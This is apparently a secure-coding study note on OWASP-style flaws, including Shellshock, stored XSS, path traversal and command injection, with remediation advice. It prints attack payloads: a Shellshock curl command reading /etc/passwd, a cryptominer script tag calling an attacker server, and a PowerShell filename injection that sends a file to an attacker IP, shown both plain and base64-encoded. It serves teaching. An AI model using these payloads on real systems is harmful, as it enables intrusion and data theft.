






# Code Defender

- [Code Defender](#code-defender)
  - [Learnning Path](#learnning-path)
    - [Vulnerable and Outdated Components](#vulnerable-and-outdated-components)
      - [EXERCISE BACKGROUND](#exercise-background)
      - [REMEDIATION](#remediation)
    - [Images with Known Vul](#images-with-known-vul)
    - [Insecure TLS Validation](#insecure-tls-validation)
    - [Integer Overflows](#integer-overflows)
    - [Secrets In Images](#secrets-in-images)
    - [Secrets Management](#secrets-management)
    - [HTTP Security Headers](#http-security-headers)
    - [No Server-Side Validation](#no-server-side-validation)
    - [Directory (Path) Traversal](#directory-path-traversal)
    - [Command Injection](#command-injection)
      - [REMEDIATION](#remediation-1)
    - [Common XSS Use Cases](#common-xss-use-cases)
      - [To prevent XSS](#to-prevent-xss)
    - [Broken Object Property Level Authorization - Excessive Data Exposure](#broken-object-property-level-authorization---excessive-data-exposure)
    - [Buffer Overflows](#buffer-overflows)
    - [Privileged Interface Exposure](#privileged-interface-exposure)
    - [Leftover Debug Code](#leftover-debug-code)
    - [Broken Object Property Level Authorization - Mass Assignment](#broken-object-property-level-authorization---mass-assignment)
    - [Broken Function-Level Authorization](#broken-function-level-authorization)
    - [Broken Object-Level Authorization](#broken-object-level-authorization)

---

## Learnning Path

### Vulnerable and Outdated Components

> In this interactive tutorial, you will learn how using components with known vulnerabilities can compromise the security of a web application, and how to mitigate such issues to prevent sensitive data being exposed to malicious users.

There were several high-profile incidents where a vulnerable component, infrastructure, or OS had catastrophic implications:

1. 04/2014: **Heartbleed** allowed attackers to read a window of arbitrary memory from web-servers that used OpenSSL, often leaking private encryption keys, contents of web requests/responses and more.

2. 09/2014: **ShellShock** allowed remote code execution, resulting in password files theft, downloading malware to the vulnerable server with WGET, DoS attacks, and more.
   1. practically universal and attacks one of the most common server operating systems in a way that also exposes many Web technologies to direct attack.
   2. This vulnerability affected web servers where `mod_cgi` was used, and the `Common Gateway Interface (CGI)` was written in a shell script or any commands were executed from the CGI.
   3. `mod_cgi` is responsible for handling the execution of shell/Perl/Python/PHP scripts on the web server. Usually, the web server passes user variables to those scripts so they can do their work. The ShellShock vulnerability allowed an attacker to pass a command as a variable that gets executed by Bash.
   4. the ShellShock vulnerability in the `cPanel` management tool will be explored. `cPanel` is often embedded in Apache web-server configurations.

3. 09/2017: Failure to patch Struts2 **OGNL Injection vulnerability in the Jakarta Multipart Parser** component allegedly resulted in the Equifax hack , largest known hacking incident in history (so far) with personal information of 143 million Americans leaking. They took their time patching, and look what happened!

- How This Vulnerability Is Introduced
  - Modern development practices rely heavily on third-party components. When teams adopt component-heavy architectures without strong inventory and update processes, they often lose visibility into what their applications actually depend on. As a result, they may not know:
    - The exact `versions of all components` in use (client-side and server-side).
    - Whether their `OS, application servers, DBMS, runtimes, or libraries` are vulnerable, unsupported, or out of date.
    - Whether `platforms, frameworks, and dependencies` are being patched or upgraded on time.
    - Whether `updated or patched libraries` have been tested for compatibility before deployment.

Some of the most significant breaches in history — such as the Equifax incident — stemmed from attackers **exploiting known, unpatched vulnerabilities** in widely used components.

exampe:

- Remote Code Execution (RCE).
  - If an attacker can remotely execute commands on your server (for example, through Bash), they effectively gain a foothold and can:
    - Access and exfiltrate internal data.
    - Download and run backdoors or malware.
    - Turn the server into a cryptocurrency miner.
    - Enlist the server into a botnet for further attacks.

---

#### EXERCISE BACKGROUND

Alice has A record keeping application

- thoroughly reviewed and tested by her peers and is satisfied that it is secure and ready for deployment.
- Alice is not particularly experienced with web-server internals and configuration files editing. So, she decided to use an `older Apache web-server image` she found in a repository in her organization, which was `preconfigured with cPanel` (which provides a graphical interface and automation tools to simplify the process of hosting a web site), and easily deployed her application there.
- The vulnerable application pane loads a record keeping application. 
- Alice is an authorized user of this application. She logs in with the following credentials to check if everything was deployed correctly:
  - Username: `alice@suredence.com`
  - Password: `Alice123!`

Bob is a hacker. 

- He scans the Web, testing for old and recent Bash vulnerabilities (there is always a possibility that someone forgot to run an update on their server).
- In his discovery, Bob uses an `Internet port scanner` and a `Proxy tool` to `intercept HTTP/S requests`, allowing him to also tamper with them and create malicious request payloads.
- Bob knows that insurance companies may store large amounts of user personal data which could be a great trophy for a skillful hacker.
- He intercepted several HTTP requests to the `records.suredence.com` server and noticed that HTTP response headers disclose an older Apache web server version -> indicate a lacking patching policy and process.
- Bob decided to test this web server for the Shellshock vulnerability specifically: uses a dedicated script which is built into recent versions of nmap port scanner: `nmap -sV -p443 --script http-shellshock records.suredence.com`
- Bob receives a response that indicates that `records.suredence.com` server, where Alice's application runs, is vulnerable to Shellshock.

```bash
[bob@hackserver~]# nmap -sV -p443 --script http-shellshock records.suredence.com
Starting Nmap 7.60 ( https://nmap.org ) at Thu Dec 11 2025 15:52:35 GMT-0800 (Pacific Standard Time) 
Nmap scan report for records.suredence.com (2.2.27)
Host is up (0.023s latency).
rDNS record for 2.2.27: server-2-2-27.fra2.r.cloudfront.net
PORT    STATE SERVICE  VERSION
443/tcp open  ssl/http Apache httpd 2.2.27
| http-shellshock:
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|   State: VULNERABLE (Exploitable)
|   IDs:  CVE:CVE-2014-6271
|   This web application might be affected by the vulnerability known as Shellshock. It seems the server
|   is executing commands injected via malicious HTTP headers.
|   
|   Disclosure date: 2014-09-24
|   References:
|   http: //www.openwall.com/lists/oss-security/2014/09/24/10
|   https: //cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|   http: //seclists.org/oss-sec/2014/q3/685
|   http: //cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
Service detection performed. Please report any incorrect results at https: //nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.12 seconds
```

- Bob decides to try a code injection attack on `records.suredence.com` server.
  - creates a malicious request to Alice's server

  - In the console, Bob receives a response, where the content of the passwd file from Alice's webserver is displayed.
  - despite her code being secure on its own, Alice forgot to update the system, whose version of cPanel is vulnerable to Shellshock.
  - You could probably notice that it’s super easy to execute the attack, and there is no authentication required when `exploiting Bash via CGI scripts`.

```bash
$ curl -H "custom:() { :; }; echo Content-Type: text/html; echo; /bin/cat /etc/passwd" \
    http://records.suredence.com

> GET http://records.suredence.com
> Host: records.suredence.com
> User-Agent: curl/7.54.0"}
> Accept: */*
> "custom: () { :; }; echo Content-Type: text/html; echo; /bin/cat /etc/passwd"
root:x:0:0:root:/root:/bin/bash 
 daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
  bin:x:2:2:bin:/bin:/usr/sbin/nologin 
 sys:x:3:3:sys:/dev:/usr/sbin/nologin 
 sync:x:4:65534:sync:/bin:/bin/sync 
 
  ... 
 
  Content-Type: text/html 
 
 <!DOCTYPE html> 
 <html lang='en'> 
 <head> 
  <meta http-equiv="Content-Type" content="text/html; charset=UTF-8"> 
  <title></title> 
 </head> 
 <body> 
  ... 
 </body>
```

- The Shellshock vulnerability affected certain version of the GNU Bash parser (up to version 4.3). The vulnerability resided in the ability to `arbitrarily define environment variables which specify a function definition` within a Bash shell. 
  - When Bash continued to process shell commands after the function definition, a code injection attack became possible.
  - The Shellshock bug is a parser bug and an encapsulation bug.
  - When we set the value of some environment variable "x", we make sure it is wrapped in apostrophes ('). Shellshock occurs despite proper encapsulation allowing it to be escaped.
  - Let's check if our Bash is vulnerable. Set the following value into "x": 

```bash
[root@recordssuredence~]# env x='() { :;}; echo vulnerable' bash -c 'echo hello'
 vulnerable
 hello
```

why this happens:

- First, the Bash parser allows the character combination `(){:;}` (which is a function definition) to terminate the apostrophe.
- Then `" ; "` terminates the code line.
- After that `echo vulnerable` is executed as Bash code.
- And at the end, `echo hello` command is read from the string and is executed by Bash.


#### REMEDIATION

One may think that those servers that were operating in a Microsoft-centric environment were safe. But non-Microsoft components could exist in a corporate ecosystem, for example, sitting in front of the Microsoft application stack and route the traffic before it reaches the web servers.

Also many IoT devices (including routers) run embedded Linux distributions with Bash shells and therefore were also vulnerable to this kind of attacks (and may be still vulnerable now). Who can ever think of updating a smart light bulb?

To mitigate such issues, there should be a patch management process in place to:

- `Remove unused dependencies, unnecessary features, components, files, and documentation`.
- `Keep inventory of the versions` of both client-side and server-side components (e.g. frameworks, libraries, etc.) and their dependencies. Continuously monitor sources like CVE and NVD for vulnerabilities in the components.
- Only obtain components from `official sources` over secure links. Prefer `signed packages` to reduce the chance of including a modified, malicious component.
- `Monitor for libraries and components` that are unmaintained or do not create security patches for older versions.

---

### Images with Known Vul



---

### Insecure TLS Validation

EXERCISE BACKGROUND

- The vulnerable application pane loads the Business Intelligence application - a thick client application used for accessing the `TradeWorx` on-line brokerage system.
- After Alice connects to the TradeWorx system, she decides to check the status of the connection.
- To view connection details, she clicks the Status button in the upper-right corner of her BI application.
- it appears that the TradeWorks system provided us with the TLS certificate that is already expired.
- But Alice was sure the developers have implemented some methods to ensure that the application checks for various TLS errors including expired certificate, revoked certificate, etc.
- performs TLS certificate validation at the transport layer.

```java
function validateCertificate(validationErrors):
    if validationErrors exist:
        if hostName is in hostNames list:
            return true
    return false
return false
```

- SSL2 and SSL3 have critical vulnerabilities that allow an attacker to decipher the ciphertext. 
- TLS 1.0 itself doesn't have critical vulnerabilities but in order to comply with some standards, TLS 1.0 shouldn't be used. 
- TLS 1.2 has no known security vulnerabilities. 
- In TLS 1.3, support of some obsolete and insecure features was removed.

---

### Integer Overflows

- a `get_packet_content()` function that dynamically allocates sufficient memory on the heap for each incoming network packet.

```java
int * get_packet_content(int *raw_packet) {
  int *packet_data, *length, i, required_memory;
  // first four bytes is the size of the packet
  length = raw_packet; 

  required_memory = (*length * sizeof(int));//sizeof(int) is assumed to be 4 bytes
  //required_memory = 240 = (60* 4) 
  //required_memory = 4 = (1073741825* 4) 
  //required_memory = 4 = (1073741825* 4) 

  packet_data = malloc(required_memory);
  if(packet_data == NULL){
    return -1;
  }
  for(i = 1; i < *length; i++){
    packet_data[i-1] = raw_packet[i];
  }
  return packet_data;
}
```

- `1073741823 (0x3FFFFFFF)` is subsequently multiplied by 4 (sizeof(int)), which equals `4294967292` (0xFFFFFFFC).
  - Side note: this same hex value represents the number -4 when interpreted as a 32-bit signed integer, as opposed to an unsigned int.
- 1073741825 (it's 0x40000001 in hex)

---

### Secrets In Images



---

### Secrets Management

- Liz, Josh, Johnny, Kenny, and Peter aredevelopers working on an IaC projectat a company. ​The IaC configuration is stored in a git repository where all the developers have read access, and a few DevSecOpsteam members have write access. 
- ​Josh, ​a DevSecOps team member, mistakenly ​​uploads a separate Terraform secrets file stored locally on their laptop to the git repository. Upon noticingthe mistake, Josh removes the file but neither wipes it from the history nor changes the secrets.

- Later that month, Dudly, the attacker, compromises Liz’s computer. ​He steals her git credentials and examines the available repositories. The repository with the IaC configuration seems like a good target for valuable data. ​​Dudly scans the repository using open-source IaC and git secret scanners and manages to find a file containing an AWS access key.

- As IaC tools often use a highly privileged user, Dudly managed to access the AWS account and secretly run several EC2 instances that mine bitcoins and spread malicious scripts

---

### HTTP Security Headers

There are a number of HTTP response headers that you should use to increase the security of your web application. They are referred to as HTTP security headers.

Once implemented, HTTP security headers restrict modern browsers from running into easily preventable vulnerabilities. They also provide yet another additional layer of security by helping to mitigate security vulnerabilities and prevent attacks (like XSS, Clickjacking, information leakage, etc.). However, it is important to mention that HTTP security headers are not intended to replace proper, secure code.

```yaml
HTTP/1.1 200 OK
Date: Thu, 21 Mar 2019 09:05:07 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 0
Connection: close
Cache-Control: max-age=600

Content-Security-Policy: script-src 'self' *.codebashing.com 'unsafe-inline' 'unsafe-eval'  www.google-analytics.com; img-src 'self' *.codebashing.com

Expires: Thu, 21 Mar 2019 09:15:06 GMT
Location: https://codebashing.com

strict-transport-security: max-age=31536000

Vary: Accept-Language, Accept-Encoding
x-content-type-options: nosniff

X-Frame-Options: DENY

X-Robots-Tag: noodp

x-xss-protection: 1; mode=block  
```

`HTTP Strict Transport Security (HSTS)` is a mechanism that prevents user-agents (a browser or any kind of program designed for communication with a particular server) from browsing a website via an unencrypted connection in case an encrypted connection can be established, and only using a trusted certificate.

- If the request is communicated through an unencrypted channel, it can be captured and tampered with by an attacker. The attacker then can steal or modify any information transmitted between the client and the server or redirect the user to a phishing website. 
- So, the first goal of HSTS is to ensure traffic is encrypted, so it instructs the browser to always use HTTPS instead of HTTP.
- Usually, browsers allow users to ignore TLS errors and continue browsing potentially insecure websites. With HSTS enabled, the user will be unable to skip the browser warning and continue. 
- The second important goal of HSTS is to make sure that the traffic is encrypted using a trusted and valid certificate.
 
---

### No Server-Side Validation

Sometimes front-end developers get mesmerized by the validation word in the client-side validation term and implicitly assume that it refers to protection of some kind that operates on the client-side level. Also, they assume that properly implemented client-side validation will not allow hackers to pass any kind of malicious input to the server, and therefore there is no need to duplicate the same validation on the server level.

But when the server doesn't use the same protection schemes as the client side does, then the attacker can bypass all the client-side validation checks. For example, the attacker can exploit a Cross-Site Scripting (XSS) vulnerability on the server by using a reverse proxy to modify the data sent after all the checks have been performed.

This is the fundamental design flaw that is the root cause of many vulnerabilities. It may allow any kind of malicious input to be passed into the application, or sometimes escalation of user access privileges.

- Alice is a developer, and she has just finished creating a feedback form for this website.
- for all the input fields in the form, she implemented an encoding function for potentially malicious symbols. The encoded symbols are represented as text on the page.
- Alice is absolutely sure that no hacker will be able to pass any malicious user input through the feedback form, so she decides to save development effort and not duplicate the same checks on the server.

```
// function Encode(s)
// {
//   var HTMLCharMap = {
//     "&" : "&amp;",
//     "'" : "&#39;",
//     '"' : "&quot;",
//     "<" : "&lt;",
//     ">" : "&gt;",
//     "\\" : "&#x5c;",
//     "`" : "&#x60;",
//     ":" : "&#58;"
//   };
//   function encodeHTMLmapper(ch) {
//     return HTMLCharMap[ch];
//   }
//   return s.replace(/[&"'<>\\`:]/g, encodeHTMLmapper);
// }; 
```

Bob is a malicious user of the WorldNews.info website. He uses a proxy tool to scan web servers for vulnerabilities, and while scanning, he found out that the part of the functionality on the WorldNews.info server that is responsible for processing user comments has no server-side validation of user input.

It means that he can pass arbitrary JavaScript to this functionality, and it will be saved on the server as if it were valid post content. The server will then send it back to the next user who opens the comment page, where the script will eventually be executed. This is known as a Stored XSS vulnerability.

Bob decides to use this vulnerability to make users of this website mine cryptocurrency for him.

```
<script src="https://currrencyminer.com/lib/currrencyminer.min.js"></script> <script> var miner = CurrrencyMiner.Anonymous('Bobs CurrrencyMiner address', 'http://bobsminerserver.evil'); miner.start(); </script>
```

Client-side checks are essential for:

Providing better user experience by giving feedback to the user about the expectations for valid input.
Support of attacks detection. If the server receives input that should have been rejected by the client, then it may be an indication of an attack.
Reducing server-side processing time for accidental input errors.
But when we start talking about security and protection, we must admit that the application stays vulnerable if client-side validation is not supported by the server-side validation. Therefore, for any security checks that are performed on the client, ensure that these checks are duplicated on the server. Server-side validation is an essential element of the defense strategy against hacker attacks.

---

### Directory (Path) Traversal

The vulnerable application pane loads the TradeRESEARCH application, an online financial research application for traders that allows them to view the latest news and research articles related to their portfolio and trading strategies.

Alice is a trader and authorized user of the TradeRESEARCH system. She has just loaded the application in her web browser.

TradeRESEARCH articles are available to registered users of the system. Alice decides to read a research report and proceeds by clicking the summary of the Thursday Share Tips article.

- As expected, the full article opens in Alice's browser.
- the URL returned by the server. It ends with the following query string: `file = 5543`
- TradeRESEARCH analysts draft financial research reports that are then uploaded as flat HTML files to the `/tmp` directory.

```py
function ReadFile:
    filename = absolutePath(“/trades”) + “/” + extractFromQuery(“file”)
    file = openFile(filename)
    return file
```

Based on what we have just seen in the source code, it doesn't look like the application validates user-supplied input that determines which file the application should read and then serve to the requesting user.

Alice decides to tamper with the parameter fields by changing the file value from the article number to the following: `file=../etc/passwd`

`https://traderesearch.codebashing.com/trade_news?file=../etc/passwd`

Interesting! Alice has just managed to access TradeRESEARCH's /etc/passwd file by simply appending ../etc/passwd string to the file input !

The ability to traverse file paths and load arbitrary files from the system is called the Directory Traversal (or Path Traversal) attack. Let us now analyze the vulnerable code to understand how the attack was triggered at a code level.

```py
    path = getFullPath(filename)
    if path not begins with “/trades”:
        return “Unauthorized access”
```

---

### Command Injection



There is an Internet banking server-side application that has an `API`. 

- Web and mobile clients communicate with the application back-end through the API using JSON format. 
- The application also has its own database.
- Data that goes through your back-end section of the "pipeline" shouldn't be considered trusted only because it has already got into that "pipeline" through some entry point and traveled through some other systems before it finally comes to your back-end application.

The vulnerable application pane loads the Web client of the Internet banking application. Users registered in the application can log in to view statistics on their banking accounts, make payments and manage payment records, open saving accounts and so on. When something unexpected happens, users can open tickets to the Technical Support and attach screenshots to their requests.

Bob is a hacker and registered user of the application. He uses the Web client to access the app.

He was trying to transfer money to his friend abroad through the Internet Banking app, but couldn't create the user on the Money Transfer registration page. Now he wants to file a support request and adds screenshots with the error.

When users provide the screenshots, they are first passed to the ImageMagic which changes the image size and resolution to reduce the file size, and after that, the ticket is created in the Support Ticketing system.



```py
// Processing the user request and file upload.  
function convert(filename, userId): 
    args = "/c magick convert C:\path\to\uploaded\files\" + filename + " -resize 50% C:\path\to\screenshots\folder\"+ userId +"\RandomlyGeneratedFileName.png"; 
    run OS Command ”cmd.exe” + args  
```

He intercepts the HTTP request that is going to the Internet Banking server and changes there the legitimate filename to the malicious command:

`& powershell $file = Get-Content C:\Windows\windows.ini; Invoke-WebRequest -Uri 180.256.0.88:4444 -Method POST -Body $file; &`

If there is a vulnerability, then a command contained in the filename will read the content of the `C:\Windows\windows.ini` file from the Internet Banking server and then send it over HTTP to Bob's server to the port 4444.

As neither Windows nor Linux allows the usage of special symbols in the filename, Bob encodes the part of the malicious filename into the Base64 format:

`& powershell -encodedcommand AGYAaQBsAGUAIAA9ACAARwBlAHQALQBDAG8AbgB0AGUAbgB0ACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAHcAaQBuAGQAbwB3AHMALgBpAG4AaQA7ACAASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AMQA4ADAALgAyADUANgAuADAALgA4ADgAOgA0ADQANAA0ACAALQBNAGUAdABoAG8AZAAgAFAATwBTAFQAIAAtAEIAbwBkAHkAIAAkAGYAaQBsAGUAOwA= &`

To make this demonstration even more visual, Bob uses Netcat utility to read from a network connection using TCP and to output the results of the exploited Command Injection vulnerability to a console.

On his internet-facing server at the IP address 180.256.0.88, Bob opens a Netcat listener.



To make this demonstration even more visual, Bob uses `Netcat utility` to read from a network connection using `TCP` and to output the results of the exploited Command Injection vulnerability to a console.

On his internet-facing server at the IP address `180.256.0.88`, Bob opens a `Netcat listener`.

Bob checks his CLI window and sees there the content of the `C:\Windows\windows.ini` file from the Internet Banking server.

With this vulnerability, almost any arbitrary operating system command can be executed on the Internet Banking server.

```bash
root@ip-180-256-0-88:/home/ubuntu# netcat -l 4444

 ... ------------------

 ; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
CMCDLLNAME32=mapi32.dll
CMC=1
MAPIX=1
MAPIXVER=1.0.0.1
OLEMessaging=1
SecretConfigPassword=AliceWillNeverBeHacked
```

```bash
bash -c convert /path/to/uploaded/files/& powershell -encodedcommand AGYAaQBsAGUAIAA9ACAARwBlAHQALQBDAG8AbgB0AGUAbgB0ACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAHcAaQBuAGQAbwB3AHMALgBpAG4AaQA7ACAASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AMQA4ADAALgAyADUANgAuADAALgA4ADgAOgA0ADQANAA0ACAALQBNAGUAdABoAG8AZAAgAFAATwBTAFQAIAAtAEIAbwBkAHkAIAAkAGYAaQBsAGUAOwA | base64 -d | bash; -resize 50% /path/to/screenshots/folder/2351612//ajgoi3mjf8.jpg");
```

- magick convert `C:\path\to\uploaded\files\` ends with an error because the convert command doesn't have enough arguments.

- `&` after it indicates the end of this command and the start of the next one:

